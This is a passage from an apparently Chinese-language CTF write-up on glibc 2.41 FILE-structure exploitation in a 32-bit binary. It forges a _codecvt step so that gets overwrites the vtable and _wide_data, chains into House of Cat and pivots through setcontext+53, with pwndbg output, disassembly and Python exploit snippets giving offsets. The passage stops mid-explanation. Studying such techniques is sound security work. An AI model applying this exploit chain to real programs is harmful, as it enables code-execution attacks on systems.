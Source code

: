 ```gdb
  __max_needed_to = 4,
  __stateful = 0,
  __data = 0x0
}
pwndbg> p *((FILE *)(0x5655a000+0x1a0))->_codecvt->__cd_in.step.__fct
$5 = {int (struct __gconv_step *, struct __gconv_step_data *, const unsigned char **, const unsigned char *, 
    unsigned char **, size_t *, int, int)} 0xf7d98c30 <__gconv_transform_utf8_internal>
```

所以只需要走进这个分支，先确定把函数指针写哪个位置，同时注意满足`fp->_codecvt->__cd_in.step->__shlib_handle == NULL`的条件。

由于我们想绕过检查改vtable，故我们函数指针写gets，并将其写到vtable前面的某个空闲位置，**这里我写的是`__unused2 + 4`的位置**，而后根据`_codecvt->__cd_in.step->__fct`的偏移为0x14，逆推出`fp->_codecvt->__cd_in.step`的地址应该写多少。

这么一来用gets输入就可以覆盖vtable以及后面的`_wide_data`结构体，且突破了修改的长度和检查的限制。

```python
stream_addr = heap_base + 0x1a0
gets_addr = libc_base + 0x7d760
fake_fct_addr = stream_addr + 0x6c + 4 # _unused2+4
fake_step_addr = fake_fct_addr - 0x14

edit(2, 8, p16(0x4d70)) # _IO_read_end
edit(4, 0x6c + 4, p32(gets_addr)) # _unused2+4
edit(2, 0xe0, p16(fake_step_addr&0xffff)) # _codecvt->__cd_in.step
```

[`adjust_wide_data`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L876)返回后，`_IO_wfile_seekoff`后续还会调用[`_IO_SYSSEEK`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L929)，gets时修改vtable再调一次`_IO_wfile_seekoff`，后面接着House of Cat即可完成利用，利用链：

[`_IO_wfile_seekoff`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L743)
  -> [`_IO_switch_to_wget_mode`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L773)
    -> [`_IO_WOVERFLOW`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wgenops.c#L394)（`_wide_data->_wide_vtable.__overflow`）

伪造`_wide_data->_wide_vtable`指针指向堆地址，伪造`_wide_data->_wide_vtable.__overflow`调用`setcontext+53`：

```python
 ► 0xeb59c825 <setcontext+53>    mov    ecx, dword ptr [eax + 0x4c]     ECX, [0x62d14310] => 0
   0xeb59c828 <setcontext+56>    mov    esp, dword ptr [eax + 0x30]     ESP, [0x62d142f4] => 0
   0xeb59c82b <setcontext+59>    push   ecx
   0xeb59c82c <setcontext+60>    mov    edi, dword ptr [eax + 0x24]
   0xeb59c82f <setcontext+63>    mov    esi, dword ptr [eax + 0x28]
   0xeb59c832 <setcontext+66>    mov    ebp, dword ptr [eax + 0x2c]
   0xeb59c835 <setcontext+69>    mov    ebx, dword ptr [eax + 0x34]
   0xeb59c838 <setcontext+72>    mov    edx, dword ptr [eax + 0x38]
   0xeb59c83b <setcontext+75>    mov    ecx, dword ptr [eax + 0x3c]
   0xeb59c83e <setcontext+78>    mov    eax, dword ptr [eax + 0x40]
   0xeb59c841 <setcontext+81>    ret
```

可以看到32位的setcontext是由eax指针指向frame结构体，此时eax正好指向我们伪造的`_wide_vtable`的位置，接着`_wide_vtable`构造frame即可：

